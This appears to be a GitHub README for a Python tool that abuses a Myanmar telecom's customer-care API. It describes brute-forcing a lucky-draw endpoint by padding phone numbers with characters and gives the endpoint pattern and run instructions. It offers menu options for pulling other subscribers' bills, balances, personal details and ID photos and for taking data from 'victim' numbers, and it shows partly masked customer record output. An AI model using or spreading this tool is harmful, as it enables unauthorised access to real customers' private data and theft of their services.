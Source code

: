 # MPT Forensic Tool

We, me and **a guy who living in Mogok**, triggered the main bug which could leads to made unlimited lucky draw existed on the
MPT server(mcare.mpt.com.mm). I just thought it was a bug while parsing the value of data type conversion occured when we try to put the user's MSISDN (phone number).

In line number 408, post a URL Parameter as the target phone number which to get a lucky draw like this.
https://mcare.mpt.com.mm/api/services/luckdraw/v1/play/{targetph}

The backend parsed the parameter(targetph=String) like just extract the DIGITS from the parameter and get a random luckydraw process.
But they didnt noticed a situation occured when someone put some random characters in front of the phone number or behind the number.
So we started put some random characters and made requests again and again. Yes its bruteforcing.

_mcare.mpt.com.mm/api/services/luckdraw/v1/play/95942xx00332_ -> can get a luckdraw after purchasing some package or adding some credit to the number.
_mcare.mpt.com.mm/api/services/luckdraw/v1/play/we_put_series_of_char_here_95942xx00332_ -> its passed and start proceeding the luckydraw process as usual.

the bug was patched on September 24, 2019. May be due to thousand of luckydraw bruteforce requests we had made.

But at least we could get all of user information like user id, name, etc.. from the place we got in.
And you can get data package from victim number just pressing Enter button. BUT the victim number CAN BE NOTICED by a sms that would include your phone number u put as Target Number.
I just uploaded it just for educational purposes and I dont want to be in any trouble. so get ur own way.

#### **How to run?**

```shell script
$ python3.7 MPT_Forensic_Tool.py

================================
MPT Forensic Tool
TwizzyIndy 9/2019
================================

1 . Get Bill Info
2 . Get Account Balance List
3 . Get Data Usage on-a-day
4 . Get User Info
5 . Get User ID Photos
6 . Balance Tranfer ( in process )
7 . Data Transfer
8 . Luckydraw Bruteforce (Patched on September 24, 2019)

Enter a number u wish to continue .. : 4
enter phone number : 942xxxx344
{'custId': 0, 'custType': 'Individual Customer', 'custName': 'xxx', 'firstName': None, 'lastName': None, 'salutation': None, 'gender': None, 'birthday': None, 'email': None, 'address': None, 'contactAddr': None, 'contactTel': None, 'city': None, 'custCategory': '', 'hobbies': '', 'maritalStatus': '', 'occupation': None, 'userName': '', 'nickName': '', 'subsPlanName': None, 'certType': '1', 'certNbr': '12/xxxx(n)xxxxxx', 'certTypeName': None, 'custCode': '14998xxx', 'impGradeName': None, 'creditLimit': None, 'fatherName': None, 'nationType': 'Myanmar', 'visaNo': None, 'visaExpireDate': None, 'visaIssueDate': None, 'race': None, 'state': None, 'township': None, 'socialMedia': None, 'secondContactTel': None, 'secondContactEmail': None}


```

put the number and start it. any phone number must be started with 9xxxxxx. **DONT ADD '0'/Zero**.

#### **How can I get the APIs we used?**

I'm not familiar with POSTMAN or any other REST API Clients(but I know what is Fiddler4).
I added MPT_API.paw which could be open on the mac with PAW Client. I would post more APIs here.
AGAIN, Dont put me in trouble.